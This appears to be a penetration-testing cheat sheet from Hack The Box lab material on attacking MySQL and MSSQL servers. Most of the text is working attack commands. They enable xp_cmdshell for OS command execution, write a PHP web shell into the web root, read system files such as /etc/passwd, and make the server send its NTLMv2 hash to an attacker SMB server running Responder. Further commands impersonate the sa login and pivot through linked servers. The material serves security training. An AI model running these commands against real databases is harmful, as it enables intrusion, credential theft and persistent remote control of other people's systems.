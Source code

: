 # SQL Syntax

```
MySQL default system schemas/databases:

    mysql - is the system database that contains tables that store information required by the MySQL server
    information_schema - provides access to database metadata
    performance_schema - is a feature for monitoring MySQL Server execution at a low level
    sys - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema

MSSQL default system schemas/databases:

    master - keeps the information for an instance of SQL Server.
    msdb - used by SQL Server Agent.
    model - a template database copied for each new database.
    resource - a read-only database that keeps system objects visible in every database on the server in sys schema.
    tempdb - keeps temporary objects for SQL queries.
```
```
bluechat@htb[/htb]$ mysql -u julio -pPassword123 -h 10.129.20.13
bluechat@htb[/htb]$ sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
bluechat@htb[/htb]$ sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
bluechat@htb[/htb]$ mssqlclient.py -p 1433 julio@10.129.203.7 (use -windows-auth if authentication fails)

C:\htb> sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

## Show Databases

mysql> SHOW DATABASES; 
sqlcmd> SELECT name FROM master.dbo.sysdatabases

```
Database:

information_schema
htbusers
```

mysql> USE htbusers;
mysql> SHOW TABLES;

sqlcmd> SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES

```
Tables_in_htbusers:

actions
permissions
permissions_roles
permissions_users
roles
roles_users
settings
users
```

mysql> SELECT * FROM users;

```
id		username		password		date_joined

1		admin			p@ssword		2020-07-02 00:00:00
2		administrator	adm1n_passwd	2020-07-02 11:30:50
```

## Executing Commands

It's possible to use SQL databases to execute system commands or create the elements to do so. MSSQL has `extended stored procedures` called `xp_cmdshell` which allows us to execute system commands using SQL. Keep in mind the following about `xp_cmdshell`:

	- `xp_cmdshell` is a powerful feature and disabled by default. `xp_cmdshell` can be enabled and disabled by using the `Policy-Based Management` or by executing `sp_configure`.
	- The Windows process spawned by `xp_cmdshell` has the same security rights as the SQL Server sevice account.
	- `xp_cmdshell` operates synchronously. Control is not returned to the caller until the command-shell command is completed.

## XP_CMDSHELL

sqlcmd> xp_cmdshell 'whoami'
sqlcmd> GO

If `xp_cmdshell` is not enabled, we can enable it, if we have the right privileges:

```mssql
-- To allow advanced options to be changed.
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.
RECONFIGURE
GO

-- To enable the feature.
EXECUTE sp_configure 'xp_cmdshell', 1
GO

-- To update the currently configured value for this feature.
RECONFIGURE
GO

```

Other methods For MSSQL: 
	- Extended Stored Procedures
	- CLR Assemblies
	- SQL Server Agent Jobs
	- External Scripts

Respectively, MySQL supports User defined Functions, letting us execute C/CPP code as a function with SQL.

## MySQL - Write Local File

```sql
mysql> SELECT "<?php echo shell_exec($_GET['c']); ?>" INTO OUTFILE '/var/www/html/webshell.php';
```
## secure_file_priv

This global system variable limits the effect of data import and export operations, such as LOAD DATA and SELECT ... INTO OUTFILE statements and the LOAD_FILE() function to those with the FILE privilege set.

```sql
mysql> SHOW variables LIKE "secure_file_priv";
```

`Respectively`, To write files with MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges.

## Enable

```sql
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO
```

## Create File

```sql
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, "C:\inetpub\wwwroot\webshell.php", 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, "<?php echo shell_exec($_GET['c']); ?>"
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
```

## Read Local Files

### MSSQL

```sql
SELECT * FROM OPENROWSET(BULK N"C:\Windows\System32\drivers\etc\hosts", SINGLE_CLOB) AS Contents
GO
```

### MySQL

```sql
SELECT LOAD_FILE("/etc/passwd");
```

## Capture MSSQL Service Hash using XP_SUBDIRS or XP_DIRTREE

We can use undocumented stored procedures which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system.
When we use one of these stored procedures and point it to our SMB server, the directory listening functionallity will force the server to authenticate and send the NTLKMv2 hash of the service account that's running the SQL Server.

```sql
start Responder

EXEC master..xp_dirtree "\\10.10.110.17\share\"
GO
```

```sql
EXEC mast..xp_subdirs "\\10.10.110.17\share\"
GO
```

XP_SUBDIRS Hash stealing with Responder and Impacket

```
sudo responder -I tun0
 or
sudo impacket-smbserver share ./ -smb2support
```

## Impersonate Existing Users with MSSQL

SQL has a special permission `IMPERSONATE`. Sysadmins can impersonate anyone by default, but non-admins must be explicitly assigned permissions.

```sql
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```

### Verify if Current User has sysadmin role

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

1 = YES, 0 = NO

### Impersonate User That Has Sysadmin

```sql
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

> Note: It's recommened to run EXECUTE AS LOGIN within the master DB because all users have access to it by default, but not always other databases.
> Also, even if a particular user is not sysadmin they may still have privileges to certain databases that are not accessible by other users.

Use REVERT to switch back to our previous user.

## Communicate with Other Databases with MSSQL

We can move laterally if there are SQL Servers linked.

### Identify Linked Servers in MSSQL

```sql
SELECT srvname, isremote FROM sysservers
GO
```

### Identify User Linked with Remote Server

```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
GO
```